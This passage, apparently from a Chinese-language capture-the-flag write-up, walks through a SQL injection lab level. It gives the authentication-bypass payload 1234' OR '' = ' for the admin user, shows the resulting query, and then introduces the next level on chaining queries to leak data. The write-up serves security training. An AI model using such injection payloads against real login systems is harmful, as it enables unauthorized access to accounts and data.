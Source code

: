 

## 分析与思路

跟11题很像。

这里发生变化的地方是，password是字符串而不是数字。

注入即可

![image-20241105155827986](./2.1.2%20Web%20Security.assets/image-20241105155827986.png)

## exp

admin

1234' OR '' = '

注意，这里是单引号，因为在sql语句中就是用单引号包裹这两个参数。

```sql
DEBUG: query="SELECT rowid, * FROM users WHERE username = 'admin' AND password = '1234' OR '' = ''"
这是debug信息，真正的sql语句就是：
SELECT rowid, * FROM users WHERE username = 'admin' AND password = '1234' OR '' = ''
```



# 13-SQLi 3

## 问题描述

> This level will require you to figure out how to chain SQL queries in order to leak data. Good luck!
